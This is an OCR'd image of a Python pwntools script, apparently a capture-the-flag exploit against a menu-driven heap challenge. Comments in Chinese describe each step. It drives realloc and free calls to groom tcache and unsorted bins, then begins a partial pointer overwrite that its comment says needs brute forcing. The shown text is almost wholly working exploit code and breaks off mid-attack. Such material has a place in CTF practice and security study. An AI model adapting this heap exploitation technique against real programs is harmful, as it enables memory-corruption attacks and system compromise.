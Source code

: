 ```python
        return
    if idx != -1:
        input("stop...{} {}".format(idx, proc.pidof(io)))
    else:
        global STOP_COUNT
        input("stop...{}  {}".format(STOP_COUNT, proc.pidof(io)))
        STOP_COUNT += 1

int16 = functools.partial(int, base=16)

context.update(os='linux', log_level=PWN_LOG_LEVEL, arch='amd64',endian='little')
##########################################
##############以下为攻击代码###############
##########################################

# realloc的特点
def re(size:int=0, content:bytes=b'\x00'):
    global io
    io.sendlineafter(">> ", '1')
    io.sendlineafter("Size?\n", str(size))
    io.recvuntil("Content?\n")
    if size > 0:
        io.send(content)
    return io.recvuntil("Done\n")

def fr():
    global io
    io.sendlineafter(">> ", '2')
    io.recvuntil("Done\n")

restraint = 1
def ba():
    global io, restraint
    if restraint == 0:
        return
    io.sendlineafter(">> ", '666')
    io.recvuntil("Done\n")
    restraint -= 1



re(0x30)# 首先申请/释放 为后面覆盖写做准备
re(0) # 释放，并把指针置为空

re(0x80) # 申请
re(0) # 释放置空

re(0x40)
re(0) # 置0 隔开topchunk

re(0x80) # 申请回来

for x in range(7): # 释放7次
    fr()

re(0) # 得到unsorted bin 同时指针置空
STOP()
re(0x30) # 取出来

# 修改两个字节 最低的一个字节是 0x60
des = int16(input('1 byes:')) # 实际打的时候，需要爆破
des = (des << 8) + 0x60

```